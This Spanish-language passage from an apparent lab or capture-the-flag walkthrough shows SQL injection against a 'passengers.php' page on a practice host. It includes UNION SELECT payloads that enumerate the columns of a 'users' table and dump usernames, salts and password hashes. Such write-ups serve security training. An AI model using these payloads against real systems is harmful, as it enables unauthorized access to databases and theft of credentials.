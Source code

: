 Lo que vamos a hacer, es centrar nuestra atención en la tabla "users" y tratar de enumerar las columnas existentes dentro de esta tabla. 

```
http://dev.lost.nyx/passengers.php?id=1 union select 1,2,column_name,4 from information_schema.columns where table_schema = "lost" and table_name="users";-- -
```

![Imagen022](22.jpeg)

Tal y como vemos, la tabla "users", tiene las columnas id, username, salt y password. Ya nos vamos acercando bien. Conociendo la base de datos, la tabla y las columnas, podemos utilizar la siguiente consulta para ver toda la información de la tabla

```
http://dev.lost.nyx/passengers.php?id=1 union select id,username,salt,password from users;
```

![Imagen023](23.jpeg)

Tenemos los usuarios y las contraseñas en formato hash. Como vemos el SALT es el mismo para todos los usuarios, lo que debilita significativamente la seguridad de almacenamiento de contraseñas. Aún así, es una tarea yo diría que imposible en este caso, ya que no hemos conseguido nada por este medio. 
